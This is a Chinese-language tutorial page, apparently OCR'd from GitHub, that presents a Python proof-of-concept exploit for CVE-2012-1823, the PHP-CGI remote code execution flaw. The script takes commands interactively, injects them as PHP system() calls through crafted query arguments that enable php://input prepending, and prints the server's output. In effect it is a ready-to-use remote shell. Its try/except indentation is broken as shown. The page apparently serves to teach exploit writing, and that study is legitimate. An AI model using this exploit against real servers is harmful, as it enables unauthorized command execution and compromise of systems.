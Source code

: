 # 用例 2: CVE-2012-1823

# CVE-2012-1823

* * *

这个 PoC 演示了 CVE-2012-1823 – PHP-CGI 的远程代码执行漏洞的利用,下面这个 PoC 的代码是通过一个简单的循环来获取 PoC 使用者频繁输入的内容,并且修改 HttP 头。Post 提交请求。这个代码的原理也可以用于其他的示例。因为这段代码演示了如何通过 Python 创建自定义的 HTTP 头并且发起请求:

```py
#!/usr/bin/python
import sys, urllib2    #导入需要的模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的 url 链接 "[+] Attempting CVE-2012-1823 - PHP-CGI RCE"

while True:        # 循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  command=raw_input("~$ ")
  Host = URL.split('/')[2]      # 从 URL 解析主机名: 'http://<host>/' 并且赋值给 Host <host>
  headers = {                   # 定义响应头部
    'Host': Host,
    'User-Agent': 'Mozilla',
    'Connection': 'keep-alive'}
  data = "<?php system('"+command+"');die(); ?>"        # PHP 运行的服务器
  req = urllib2.Request(URL+"?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data, headers)

  try:                    # 使用 Try/Except 处理响应信息
    response = urllib2.urlopen(req)     # 发起请求
    for line in response.readlines():
      print line.strip()
    except Exception as e: print e 
```

**结果演示**

![php_cgi](img/0x14.png)